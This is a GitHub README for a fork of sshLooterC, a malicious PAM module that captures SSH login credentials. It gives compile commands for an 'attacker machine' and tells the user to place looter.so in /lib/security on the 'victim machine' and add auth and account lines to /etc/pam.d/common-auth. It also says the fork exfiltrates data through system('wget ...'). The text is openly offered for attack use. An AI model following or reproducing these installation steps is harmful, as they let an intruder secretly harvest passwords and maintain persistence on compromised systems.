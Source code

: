 # sshLooterC forked

<a href="https://github.com/mthbernardes/sshLooterC">https://github.com/mthbernardes/sshLooterC</a>

# Changes from the original project
* Removed libcurl4-openssl-dev dependency, now using <b>system("wget ...")</b>
* Compiled for 32bit arch on a 64bit system, you need to install <b>gcc-multilib</b> on the attacker machine
* I have coded a C file, <b>callLooter.c</b> to test the library before installation on the target


# Dependencies
* PAM dev library: <b>libpam0g-dev</b>
* [Optional] To compile the program for 32bit arch you need to install <b>gcc-multilib</b> on a 64bit system

# Compilation
`gcc callLooter.c -o callLooter -m32 -ldl`
 `gcc -m32 -Werror -Wall -fPIC -shared -o looter.so looter2.c`
The m32 switch is optional and allows to compile the files for a 32bit victim on a 64bit attacker machine

# Usage
Copy the <b>looter.so</b> to victim machine on <b>/lib/security</b>, then append to <b>/etc/pam.d/common-auth</b>the following lines:
`auth optional looter.so`
`account optional looter.so`

# Credits
<a href="https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html" target="_blank">Stealing SSH credentials Another Approach.</a>
<br/>
Thank you

 
